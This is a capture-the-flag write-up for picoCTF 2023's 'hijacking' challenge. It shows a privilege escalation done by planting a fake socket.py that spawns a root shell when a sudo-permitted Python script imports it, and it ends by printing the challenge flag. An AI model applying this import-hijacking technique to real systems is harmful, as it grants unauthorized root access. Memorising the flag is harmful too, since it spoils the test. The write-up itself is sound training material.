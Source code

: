 # hijacking - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## hijacking Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/hijacking]
└──╼ $ ssh picoctf@saturn.picoctf.net -p 58168
picoctf@saturn.picoctf.net's password: 

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$
```

By executing the `sudo -l` command, we are able to view a list of commands that can be run with root privileges. From this list, we can identify the command that we are interested in running with elevated permissions:
```console
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can observe that the `/usr/bin/python3 /home/picoctf/.server.py` command can be executed with `root` privileges. Let's take a closer look at the script:
```python
picoctf@challenge:~$ cat /home/picoctf/.server.py
import base64
import os
import socket

ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)  
```

we can exploit the Python import system to hijack the import of the `socket`/`base64` / `os` libraries. By creating a script with the same name (`socket.py`) in a directory that is higher up in the import search order than the original `socket` library, we can ensure that our script is imported instead of the original library. Our `socket.py` script will contain the code to spawn a shell as root using `pty.spawn('/bin/bash')`.

This is the content of our `socket.py` script:
```python
import pty

pty.spawn('/bin/bash')
```

Assuming that our `socket.py` script has been successfully created and placed in a higher directory than the original socket library, we can now execute the `/usr/bin/python3 /home/picoctf/.server.py` command with `root` privileges. This will result in the execution of our modified `socket.py` script, which in turn will spawn a shell as `root` using the `pty.spawn('/bin/bash')` command. We can then interact with this shell to carry out any necessary actions:
```console
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
root@challenge:/home/picoctf# 
```

Now that we have a `root` shell, we can navigate to the location of the flag file and read its contents:
```console
root@challenge:/home/picoctf# ls -ltra /root
total 16
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Mar 16 02:08 .flag.txt
drwxr-xr-x 1 root root   63 Apr  3 12:03 ..
-rw------- 1 root root    5 Apr  3 12:04 .bash_history
drwx------ 1 root root   27 Apr  3 12:04 .
root@challenge:/home/picoctf# cat /root/.flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}
```


And we get the flag `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`.
